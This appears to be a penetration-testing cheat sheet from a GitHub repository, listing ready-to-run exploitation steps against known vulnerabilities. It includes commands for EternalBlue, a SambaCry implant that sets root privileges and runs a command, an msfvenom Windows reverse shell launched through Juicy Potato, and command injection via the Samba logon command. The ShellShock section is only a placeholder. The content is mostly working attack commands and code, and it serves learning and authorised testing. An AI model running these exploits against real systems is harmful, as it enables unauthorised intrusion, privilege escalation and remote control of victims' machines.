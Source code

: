 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

# Exploit
## Table of Contents
* [CVE-2017-0144: EternalBlue](#cve-2017-0144-eternalblue)
* [CVE-2017-7494: SambaCry](#cve-2017-7494-sambacry)
* [CVE-2014-6271: ShellShock via SMTP](#cve-2014-6271-shellshock-via-smtp)
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)

## CVE-2017-0144: EternalBlue
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket
python zzz_exploit.py $TARGET $NAMED_PIPE
```

## CVE-2017-7494: SambaCry
Download Proof-of-Concept code from joxeankoret and modify as desired. 
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script. 
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```

My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp 
```

Run the exploit. 
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

## CVE-2014-6271: ShellShock via SMTP
```bash
# code goes here
```

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
